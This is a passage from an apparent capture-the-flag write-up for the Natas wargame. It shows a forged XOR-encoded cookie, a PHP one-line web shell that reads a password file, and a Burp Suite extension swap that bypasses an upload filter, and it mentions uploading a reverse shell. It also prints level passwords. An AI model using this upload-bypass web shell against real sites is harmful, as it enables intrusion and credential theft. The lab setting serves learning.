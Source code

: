 ```

print base64_encode(xor_encrypt(json_encode($ptext), $key));

?>
```
> ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

Change our cookie with the new one.  

> The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
##

### Natas 12
###### Choose a JPEG to upload (max 1KB):

After playing a bit, I saw that there's nothing to indicate that the file is actually verified to be a **.jpg**.  
Anyway, we can upload a **file.php** that will read from **/etc/natas_webpass/natas13** file.  
```
<?php echo exec("cat /etc/natas_webpass/natas13"); ?>
```

Then, we upload it and intercecpt the upload in burpsuite where we change the extension from .jpg to .php.   
> 9a9ulg2iz1.jpg -- change it to .php

Then, if we follow the link generated, we see the content of **/etc/natas_webpassa/natas13** file.  
> jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

**Note**: We could've uploaded a reverse shell in the same way, but I don't know if we're allowed in Natas rooms.  
##

